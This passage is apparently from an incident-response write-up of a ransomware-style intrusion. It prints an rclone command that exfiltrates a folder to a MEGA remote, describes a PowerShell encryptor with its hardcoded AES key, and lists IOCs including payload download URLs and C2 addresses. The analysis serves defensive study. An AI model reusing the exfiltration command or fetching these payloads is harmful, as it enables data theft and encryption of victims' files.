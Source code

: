 ```C:\Users\Public\rclone+config\rclone.exe copy C:\ProgramData\Teams mega:V1A```
The script.ps1 appears to function as a file encryptor. When executed in encryption mode, the script searches for various data and document files across the C:\ drive and encrypts them. The encryption is performed using AES with a hardcoded key, "Q5KyUru6wn82hlY9k8xUjJOPIC9da41jgRkpt21jo2L=", which is provided in Base64 format.

![alt text](..\assets\2025-07-29-the_dfir_report_202504\script_ps1.png)

The attacker then deployed the script.ps1 across multiple systems in the domain using PowerShell Remoting.

![alt text](..\assets\2025-07-29-the_dfir_report_202504\deploy_script.png)

The script.ps1 was successfully executed on DC1, Files5, and Desktop6. However, because the encrypt parameter was not included in the execution, the script did not perform any data encryption on these systems.

![alt text](..\assets\2025-07-29-the_dfir_report_202504\run_ps.png)

# Timeline

![alt text](..\assets\2025-07-29-the_dfir_report_202504\timeline_The-DFIR-ReportDFIR-Artifacts.png)

# Diamond Model

![alt text](..\assets\2025-07-29-the_dfir_report_202504\diamon_The-DFIR-ReportDFIR-Artifacts.png)

# IOCs

```
http://34.29.169.45:8883/iexploreplugin.exe
http://34.29.169.45:8883/python.zip
http://34.29.169.45:8883/rclone+config.zip
http://paste.sh/QkeqtD5b#1CAdnafDYp1KfdLnjnoB8nak
https://gist.githubusercontent.com/tsale/3be988cf096738185e29fafdec7b55b6/raw/dfae10d172004781e6e94bf6a39a79691b32b2c3/script.ps1
https://gist.githubusercontent.com/tsale/a8ece812c4dde3c9dad91a5d6c09b247/raw/b0549df22b18828414f8e6f29c07b6354a00c851/crypto.psm1
```

```
Sliver:
34.29.169.45

Pyramid:
agegamepay.com
104.21.76.201
```
```
File:
\\DC1\Deploy\script.ps1
C:\ProgramData\Deploy\script.ps1
C:\ProgramData\Deploy\crypto.psm1
C:\ProgramData\python
C:\ProgramData\python.zip
C:\ProgramData\Teams
C:\ProgramData\Teams\teams-starktech.zip
C:\Users\Public\iexploreplugin.exe
C:\Users\Public\rclone+config.zip
C:\Users\t.leon\AppData\Local\Temp\1\iexploreplugin.exe
C:\Users\t.leon\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\iexplore.lnk
```

```
SH256 Hash:
0c2e9bc2d21440d02bc0fc48e2b03f7232188f978868f1c72ab50c4115fac00d script.ps1